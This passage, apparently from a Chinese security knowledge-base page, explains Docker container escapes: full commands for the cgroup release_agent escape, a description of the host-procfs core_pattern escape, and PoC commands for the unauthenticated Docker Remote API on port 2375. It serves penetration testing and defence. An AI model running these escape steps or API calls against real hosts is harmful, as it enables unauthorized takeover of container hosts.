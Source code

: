 1. 主机使用 SYS_ADMIN Linux capability 运行一个 docker 容器
    ```bash
    docker run -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
    ```

2. 挂载 cgroup 控制器并创建子 cgroup
    ```bash
    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    ```
    > 注:如果这里报错"mount: /tmp/cgrp: special device cgroup does not exist.",将 rdma 改为 memory

3. 创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行 release_agent 文件。
    ```bash
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "$host_path/cmd" > /tmp/cgrp/release_agent

    cat /tmp/cgrp/release_agent

    echo '#!/bin/sh' > /cmd
    echo "ls > $host_path/output" >> /cmd
    chmod a+x /cmd
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    head /output
    ```

**挂载宿主机 Procfs 系统导致容器逃逸**
- 描述

    procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 User Namespace 时. 有些业务为了实现某些特殊需要，会将该文件系统挂载进来

    procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从 2.6.19 内核版本开始，Linux 支持在 `/proc/sys/kernel/core_pattern` 中使用新语法。如果该文件中的首个字符是管道符 `|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

- 相关文章
    - [挂载宿主机Procfs系统导致容器逃逸](https://github.com/Metarget/metarget/tree/master/writeups_cnv/mount-host-procfs)

**Docker Remote API 未授权访问漏洞**
- 描述

    Docker Remote API 是一个取代远程命令行界面（rcli）的 REST API。存在问题的版本分别为 1.3 和 1.6 因为权限控制等问题导致可以通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell。

- 相关文章
    - [新姿势之Docker Remote API未授权访问漏洞分析和利用](https://wooyun.js.org/drops/%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8.html)
    - [Docker Remote API未授权访问漏洞复现](https://zgao.top/docker-remote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
    - [Docker daemon api 未授权访问漏洞](https://mp.weixin.qq.com/s/sPNEQ5n0rQEspTi7UescLg)
    - [针对暴露Docker.Sock的攻击总结](https://mp.weixin.qq.com/s/65XvaD_U3gkwzjXzrrwOpw)

- POC | Payload | exp
    - `http://[ip]:2375/version`
        ```bash
        docker -H tcp://[IP]:2375 version
        docker -H tcp://[IP]:2375 ps

